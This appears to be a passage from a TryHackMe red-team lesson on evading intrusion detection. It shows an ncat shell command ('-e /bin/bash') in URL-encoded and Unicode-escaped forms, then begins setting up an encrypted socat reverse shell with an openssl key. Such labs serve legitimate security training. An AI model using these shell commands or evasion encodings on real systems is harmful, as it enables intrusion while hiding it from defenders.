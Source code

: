 ncat -lvnp 1234 -e /bin/bash becomes ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash after URL encoding. Depending what the IDS/IPS signature is matching, URL encoding might help evade detection.
Use Escaped Unicode

Some applications will still process your input and execute it properly if you use escaped Unicode. There are multiple ways to use escaped Unicode depending on the system processing the input string. For example, you can use CyberChef to select and configure the Escape Unicode Characters recipe as shown in the image below.

    Search for Escape Unicode Characters
    Drag it to the Recipe column
    Ensure you a check-mark near Encode all chars with a prefix of \u
    Ensure you have a check-mark near Uppercase hex with a padding of 4

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/f330a782dc93a8b227fc93231aa1649a.png)

```cyberchef
input 
ncat -lvnp 1234 -e /bin/bash

recipe: escape unicode characters

output

\u006E\u0063\u0061\u0074\u0020\u002D\u006C\u0076\u006E\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002D\u0065\u0020\u002F\u0062\u0069\u006E\u002F\u0062\u0061\u0073\u0068
```

	If you use the format \uXXXX, then ncat -lvnp 1234 -e /bin/bash becomes \u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068. It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.

Encrypt the Communication Channel

Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attacker’s system and set socat to use the encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be carried out in three steps:

    Create the key
    Listen on the attacker’s machine
    Connect to the attacker’s machine

Firstly, On the AttackBox or any Linux system, we can create the key using openssl.

```
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```

The arguments in the above command are:

    req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
    -x509 specifies that we want an X.509 certificate
    -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
    -days 365 shows that the validity of our certificate will be one year
    -subj sets data, such as organization and country, via the command-line.
    -nodes simplifies our command and does not encrypt the private key
    -keyout PRIVATE_KEY specifies the filename where we want to save our private key
    -out CERTIFICATE specifies the filename to which we want to write the certificate request
